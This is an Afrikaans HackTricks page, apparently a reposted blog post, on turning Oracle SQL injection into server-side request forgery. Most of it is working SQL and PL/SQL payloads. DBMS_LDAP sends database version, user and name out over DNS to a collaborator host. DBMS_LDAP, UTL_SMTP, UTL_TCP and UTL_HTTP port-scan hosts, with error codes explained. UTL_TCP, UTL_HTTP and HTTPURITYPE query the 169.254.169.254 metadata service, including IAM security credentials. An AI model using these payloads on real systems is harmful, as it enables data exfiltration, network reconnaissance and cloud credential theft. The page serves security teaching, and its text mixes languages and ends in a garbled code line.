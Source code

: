 # Oracle injection

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Dien hierdie pos 'n wayback masjien kopie van die verwyderde pos van [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Die gebruik van Oracle om Out of Band HTTP en DNS versoeke te doen is goed gedokumenteer, maar as 'n middel om SQL data in inspuitings te eksfiltreer. Ons kan altyd hierdie tegnieke/funksies aanpas om ander SSRF/XSPA te doen.

Om Oracle te installeer kan regtig pynlik wees, veral as jy 'n vinnige instansie wil opstel om opdragte uit te probeer. My vriend en kollega by [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), het my gewys na [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) wat my toegelaat het om 'n instansie op 'n t2.large AWS Ubuntu masjien en Docker op te stel.

Ek het die docker opdrag met die `--network="host"` vlag gedraai sodat ek Oracle as 'n inheemse installasie met volle netwerktoegang kon naboots, vir die duur van hierdie blogpos.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle-pakkette wat 'n URL of 'n Gasheer/Poortnommer-spesifikasie ondersteun <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Om enige pakkette en funksies te vind wat 'n gasheer en poort spesifikasie ondersteun, het ek 'n Google-soektog op die [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) gedoen. Spesifiek,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Die soektog het die volgende resultate teruggegee (nie almal kan gebruik word om uitgaande netwerk te voer nie)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Hierdie ruwe soektog slaag duidelik oor pakkette soos `DBMS_LDAP` (wat die deurgee van 'n gasheernaam en poortnommer toelaat) aangesien [die dokumentasiebladsy](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) jou eenvoudig na 'n [ander plek](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) verwys. Daarom mag daar ander Oracle-pakkette wees wat misbruik kan word om uitgaande versoeke te maak wat ek dalk gemis het.

In elk geval, kom ons kyk na sommige van die pakkette wat ons ontdek het en hierbo gelys het.

**DBMS\_LDAP.INIT**

Die `DBMS_LDAP` pakket stel toegang tot data van LDAP-bedieners toe. Die `init()` funksie inisieer 'n sessie met 'n LDAP-bediener en neem 'n gasheernaam en poortnommer as 'n argument.

Hierdie funksie is voorheen gedokumenteer om die eksfiltrasie van data oor DNS te toon, soos hieronder
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
However, gegewe dat die funksie 'n hostname en 'n poortnommer as argumente aanvaar, kan jy dit gebruik om soos 'n poortskandeerder te werk.

Hier is 'n paar voorbeelde
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` dui aan dat die poort gesluit is terwyl 'n sessiewaarde na die poort wat oop is, dui.

**UTL\_SMTP**

Die `UTL_SMTP` pakket is ontwerp om e-posse oor SMTP te stuur. Die voorbeeld wat op die [Oracle dokumentasiewebwerf verskaf word, wys hoe jy hierdie pakket kan gebruik om 'n e-pos te stuur](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Vir ons is die interessante ding egter die vermoë om 'n gasheer- en poortspesifikasie te verskaf.

'n Grof voorbeeld word hieronder getoon met die `UTL_SMTP.OPEN_CONNECTION` funksie, met 'n tydsduur van 2 sekondes.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` dui aan dat die poort oop is, maar geen SMTP-verbinding tot stand gebring is nie, terwyl 'n `ORA-29278: SMTP transient error: 421 Service not available` dui aan dat die poort gesluit is.

**UTL\_TCP**

Die `UTL_TCP` pakket en sy prosedures en funksies laat [TCP/IP-gebaseerde kommunikasie met dienste](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190) toe. As dit geprogrammeer is vir 'n spesifieke diens, kan hierdie pakket maklik 'n manier in die netwerk word of volle Server Side Requests uitvoer, aangesien alle aspekte van 'n TCP/IP-verbinding beheer kan word.

Die voorbeeld [op die Oracle-dokumentasiewebwerf toon hoe jy hierdie pakket kan gebruik om 'n rou TCP-verbinding te maak om 'n webblad te verkry](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Ons kan dit 'n bietjie eenvoudiger maak en dit gebruik om versoeke na die metadata-instantie te maak, byvoorbeeld, of na 'n arbitrêre TCP/IP-diens.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Interessant genoeg, weens die vermoë om rou TCP versoeke te vervaardig, kan hierdie pakket ook gebruik word om die Instansie meta-data diens van alle wolkverskaffers te ondervra, aangesien die metode tipe en addisionele koppe alles binne die TCP versoek oorgedra kan word.

**UTL\_HTTP en Web Versoeke**

Miskien is die mees algemene en wyd gedokumenteerde tegniek in elke Out of Band Oracle SQL Injection tutoriaal daar buite die [`UTL_HTTP` pakket](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Hierdie pakket word deur die dokumentasie gedefinieer as - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
U kan dit ook gebruik om 'n paar rudimentêre poortskandering uit te voer met vrae soos
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
A `ORA-12541: TNS:no listener` of `TNS:operation timed out` is 'n teken dat die TCP-poort gesluit is, terwyl 'n `ORA-29263: HTTP protocol error` of data 'n teken is dat die poort oop is.

'n Ander pakket wat ek in die verlede met verskillende sukses gebruik het, is die [`GETCLOB()` metode van die `HTTPURITYPE` Oracle abstrakte tipe](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) wat jou toelaat om met 'n URL te kommunikeer en ondersteuning bied vir die HTTP-protokol. Die `GETCLOB()` metode word gebruik om die GET-respons van 'n URL as 'n [CLOB datatipe.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
